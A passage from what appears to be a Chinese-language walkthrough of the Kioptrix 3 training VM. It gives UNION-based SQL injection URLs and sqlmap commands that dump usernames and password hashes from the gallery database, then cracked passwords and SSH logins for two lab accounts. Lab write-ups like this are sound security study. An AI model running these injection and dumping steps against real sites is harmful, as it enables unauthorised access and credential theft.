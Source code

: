 gallarific_users表的列名payload=`http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='gallarific_users'),database(),4,5,6--+`发现username,password比较重要

![image-20240630151535899](image/image-20240630151535899.png)

#### 爆字段

dev_accounts表字段payload=`http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,(select group_concat(username,';',password) from dev_accounts),3,4,5,6--+`

![image-20240630153156828](image/image-20240630153156828.png)



gallarific_users表字段payload=`http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,(select group_concat(username,';',password) from gallarific_users),3,4,5,6--+`

![image-20240630152039949](image/image-20240630152039949.png)

### sqlmap

```bash
#查看数据库
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' --dbs
#查看某个数据库的表
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' -D 'gallery' --tables
#查看字段
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' -D 'gallery' -T 'dev_accounts,gallarific_users' --columns
#查看数据
sudo sqlmap -u 'http://kioptrix3.com/gallery/gallery.php?id=1' -D 'gallery' -T 'dev_accounts,gallarific_users' -C 'username,password' --dump
```

重要信息

```bash
发现这个是系统用户账号，进行ssh登录
账号：dreg
密码：0d3eccfb887aabd50f243b3f155c0f85
md5解密：Mast3r
ssh -oHostKeyAlgorithms=ssh-rsa,ssh-dss dreg@192.168.88.27

发现这个也是系统用户账号，进行ssh登录
账号：loneferret
密码：5badcaf789d3d1d09794d8f021f40f0e
md5解密：starwars
ssh -oHostKeyAlgorithms=ssh-rsa,ssh-dss loneferret@192.168.88.27

```